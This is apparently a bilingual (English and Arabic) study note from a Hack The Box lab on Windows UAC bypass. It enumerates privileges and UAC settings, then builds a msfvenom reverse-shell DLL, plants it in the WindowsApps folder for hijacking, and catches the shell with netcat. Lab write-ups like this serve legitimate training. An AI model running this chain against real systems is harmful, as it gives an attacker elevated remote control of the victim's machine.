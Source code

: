 # User Account Control

**User Account Control(UAC):** feature in windows which display consent prompt when program run service need high privilege

عباره عن برومبت بتظهر لما بترن حاجه محتاجه صلاحيات عاليه

When UAC is enable all Apps running with user privilege wither admin accept to running with admin privilege

لما الحاجه دي تبقي شغاله البرامج والمهام بتشتغل بصلاحيات مستخدم عادي، إلا لو الأدمن وافق صراحة إنها تشتغل بصلاحيات أدمن. ده بيحمي الأدمن من إنه يعمل تغييرات خطيرة من غير قصد.

**UAC is not Security Boundary**

***

## **Checking Current User**

```powershell
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002
```

## **Confirming Admin Group Membership**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.
```

## **Reviewing User Privileges**

```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## **Confirming UAC is Enabled**

check if UAC is enabled if value is 0x1 then UAC is enabled

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

## **Checking UAC Level**

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## **Checking Windows Version**

UAC bypasses leverage flaws or unintended functionality in different Windows builds

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

![image.png](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

> **The** [**UACME**](https://github.com/hfiref0x/UACME) **project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it**

<figure><img src="../../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Reviewing Path Variable**

The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

***

## **Generating Malicious srrstr.dll DLL**

First, let's generate a DLL to execute a reverse shell. and open listener

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

## **Testing Connection**

run dll with privilege user to confirm it’s work

```bash
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

## **Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```bash
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```bash
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## **Receiving Connection Back**

Checking back on our listener, we should receive a connection almost instantly.

```bash
irix@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

***
